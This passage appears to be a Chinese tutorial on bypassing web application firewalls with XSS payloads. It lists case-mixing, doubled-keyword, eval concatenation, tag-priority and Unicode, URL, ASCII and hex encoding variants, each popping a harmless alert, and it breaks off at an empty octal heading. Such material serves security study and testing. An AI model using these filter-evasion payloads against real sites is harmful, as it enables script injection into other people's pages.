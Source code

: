 <ImG sRc\=x onerRor\=alert("xss");\>

### 双写关键字

有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

<imimgg srsrcc\=x onerror\=alert("xss");\>

### 字符拼接

利用eval

<img src\="x" onerror\="a=\`aler\`;b=\`t\`;c='(\`xss\`);';eval(a+b+c)"\>

利用top

    <script>top["al"+"ert"](`xss`);</script>


### 其它字符混淆

有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了  
下面举几个简单的例子

    可利用注释、标签的优先级等
    1.<<script>alert("xss");//<</script>
    2.<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
    3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>


### 编码绕过

Unicode编码绕过

<img src\="x" onerror\="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;"\>

<img src\="x" onerror\="eval('\\u0061\\u006c\\u0065\\u0072\\u0074\\u0028\\u0022\\u0078\\u0073\\u0073\\u0022\\u0029\\u003b')"\>

url编码绕过

<img src\="x" onerror\="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))"\>

    <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>


Ascii码绕过

<img src\="x" onerror\="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))"\>

hex绕过

    <img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>


八进制
